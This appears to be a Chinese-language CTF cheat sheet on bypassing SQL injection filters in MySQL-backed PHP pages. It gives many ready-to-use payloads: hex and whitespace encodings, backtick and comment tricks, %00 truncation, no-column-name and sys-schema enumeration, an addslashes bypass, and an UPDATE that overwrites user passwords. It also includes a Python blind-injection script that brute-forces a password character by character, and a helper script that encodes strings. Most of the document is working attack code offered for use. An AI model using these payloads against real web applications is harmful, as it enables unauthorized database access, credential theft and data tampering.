 ## **大写绕过**
select被过滤，试试Select
```
mysql 8.0.19新增语句table

table table_name

过滤select可以使用table代替
```

^
## **过滤单引号**
```
使用转义\将'转成字符，从而可以拼接。

对于表名，使用16进制编码绕过，如：0x666c6167323361
```


^
## **编码绕过**
is_numeric($_GET['id']) ，过滤只允许数字，16进制编码sql注入。


^
## **过滤数字**
可以用true+true组合，相当于1+1
脚本
```
# 用true代替数字
s='0123456789abcdef-{}'
def convert(strs):
  t='concat('
  for s in strs:
    # t+= 'char(true'+'+true'*(ord(s)-1)+'),'
    t+= 'char(true'+'%2btrue'*(ord(s)-1)+'),'
  return t[:-1]+")"
print(convert('2'))
```


^
## **空格被过滤**
+空格过滤可以利用/**/代替空格。
```
有的时候是union select被过滤，union/**/select也可以绕过
```
编码绕过
```
%09  制表符table

%0a
%0b
%0c
%0d
```


利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

反引号代替空格
```
username = 0;update`ctfshow_user`set`pass`=1
```

^
## **注释符被过滤**
```
1、#编码用%23
2、将后面的单引号闭合即可。'or(id=26)and'1'='1   
or '1'='1
```

用;%00 来进行注释
```
http://localhost/CTF/?user=\&pwd=||1;%00
对应SQL语句为：
select user from users where user='\' and pwd='||1;'
等价于：
select user from users where user='xxxxxxxxxxx'||1#
```
盲注
```
import string
import requests
import re
char_set = '0123456789abcdefghijklmnopqrstuvwxyz_'
pw = ''
while 1:
    for ch in char_set:
        url = 'http://localhost/CTF/?user=\\&pwd=||pwd/**/regexp/**/"^%s";%%00'
        r = requests.get(url=url%(pw+ch))
        if 'Welcome Admin' in r.text:
            pw += ch
            print(pw)
            break
    if ch == '_': break
r = requests.get('http://localhost/CTF/?user=&pwd=%s' % pw)
print(re.findall('HRCTF{\S{1,50}}',r.text)[0])
```

^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **无字段名注入**
<https://www.cnblogs.com/hello-there/p/12918265.html>
知道表名，不知道字段名。分析字段数，再统一查某个字段的所有值。
```
表的字段数判断：select 1,2 union select * from user  试出字段数。

再直接查出值，无需知道字段名，查出原表第2的字段的所有记录值
select 1,2 union select * from user;

select `2` from  (select 1,2 union select * from user) as u
select u.2 from (select 1,2 union select * from users) as u

整合
select group_concat(`2`) from  (select 1,2 union select * from user) as u 


1. 列名需要用``包裹起来，字段名为数字，则`2`

2. 使用子查询的时候,即一个查询嵌套在另一个查询中,内层查询的结果可以作为外层查询的条件,内层查询到的结果需要起一个别名(as)
```

## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
已知可以布尔盲注，但不知道字段名，直接无列名注入
```
表中如果有多个记录值：要条件查询成一条，一般都是一条。where flag like "f%"

表的字段数判断：select 1,2 union select * from user  试出字段数。

一个字段一条记录
select((select "{}")>(select * from f1ag_1s_h3r3_hhhhh))
两个字段一条记录，获取字段
select((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))

select((select 1,"fla")>(select * from f1ag_1s_h3r3_hhhhh))
通过flb>flag{xxx} 比较结果1或0即可
当为1时的回显，值-1就是正确字符
2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))
```






^
^
## **函数等效替换**
报错函数被过滤，寻找顶替。
ascii和ord


^
## **存在转义函数addslashes绕过**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```

^
如果是数值传参，如果是)闭合，直接不传入"和\即可绕过：
```
addslashes($id);
$res = $conn->query("SELECT `username` FROM ctfshow_users WHERE id = ($id)");

?id=222)%20union%20select%20group_concat(table_name)%20from%20mysql.innodb_table_stats%20where%20database_name%20=%20database()%23
```

^
## **where后=和like被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";

flag like "f%"
(flag)like'c%'
```